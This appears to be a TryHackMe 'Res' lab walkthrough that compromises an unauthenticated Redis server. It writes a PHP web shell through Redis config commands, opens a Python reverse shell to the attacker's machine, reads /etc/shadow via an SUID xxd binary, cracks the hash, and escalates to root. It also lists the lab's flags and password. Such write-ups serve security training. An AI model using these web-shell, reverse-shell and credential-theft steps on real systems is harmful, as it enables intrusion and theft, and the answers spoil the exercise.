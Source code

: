 # Res
https://tryhackme.com/room/res

## Scan the machine, how many ports are open?
`nmap -sC -sV -vv $ip | tee nmap-log`

This finds a single port open on port 80, however this isn't all the ports that are open so I run a secondary scan this time using a SYN scan.

`sudo nmap -sS -p- -v $ip | tee nmap-log-syn`

This find an additional port on 6379

**Answer: 2**

## What's is the database management system installed on the server?
Aside from the name of this room we can use nmap to perform enumeration.

To do this I perform a search on my local machine for nmap scripts using `find / -name "*sql*.nse" 2>/dev/null` which returns a list of nmap scripts, however the one I want to use in this instance is called _/usr/share/nmap/scripts/ms-sql-info.nse_

I then use this script with nmap to perform some enumeration.

`nmap -sV --script=ms-sql-info -p 6379 $ip`

This finds that the service being used is called _redis_ with the version _Redis key-value store 6.0.7_

**Answer: redis**

## What port is the database management system running on?
Found earlier in our nmap SYN scan.

**Answer: 6379**

## What's is the version of management system installed on the server?
Found earlier in our NSE script scan for sql info.

**Answer: 6.0.7**

## Compromise the machine and locate user.txt 
I access the redis service using the redis-cli `redis-cli -h $ip` and run the `info` command which shows me that anonymous connections are enabled.

It also showed me that there is a user on the server called "vianka" and that 

I then check [Hacktricks](https://book.hacktricks.xyz/) for tips on pentesting Redis and find [this page](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

I then establish a webshell using my available credentials:
```
config set dir /var/www/html # Default Directory for Apache2 on Ubuntu
config set dbfilename redis.php
set test "<?php system($_GET["cmd"]); ?>"
save
```

Once this has been saved I can navigate to `http://$ip:80/redis.php` and provide the `?cmd=` parameter to pass scripts to shell for RCE.

I then check to see if Python in installed so I can establish a reverse shell on the server by setting the cmd parameter to contain: `python3 --version`

Once Python3 was confirmed to be installed I started a netcat listener on my machine `nc -lvnp 4444` and created a python command to pass to the cmd parameter to establish a reverse shell.

`python -c 'import socket,os,pty;s=socket.socket();s.connect((<VPN IP>,4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

Once this reverse shell was received I stabilized it and continued.

To find the user flag I used the following command `find / -name "*user.txt*" 2>/dev/null` and found a file in vianka's home directory `cat /home/vianka/user.txt`

**Answer: thm{red1s_rce_w1thout_credent1als}**

## What is the local user account password?

I couldn't find any way to find the local user's password with my current account so I aimed at escalating to the root user for more access.


I search for SUID binaries using the command `find / -user root -perm -4000 -print 2>/dev/null` and then check GTFO Bins for each result.

[Result: /usr/bin/xxd SUID](https://gtfobins.github.io/gtfobins/xxd/#suid)

I use this exploit to read the contents of the shadow file using `/usr/bin/xxd "/etc/shadow" | xxd -r` and get the following information:

```
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
I write this to a file then use John to crack the hash `john hash.txt` which reveals the password as "beautiful1"

**Answer: beautiful1**

## Escalate privileges and obtain root.txt
Using the password I found from above I shell into the user vianka using `su vianka` and entering the password.

Once on the account I run `sudo -l` to check the available privileges and get the response (ALL : ALL) ALL therefore I run `sudo su -` to access the root user and navigate to the root directory and read the contents of root.txt

**Answer: thm{xxd_pr1v_escalat1on}**
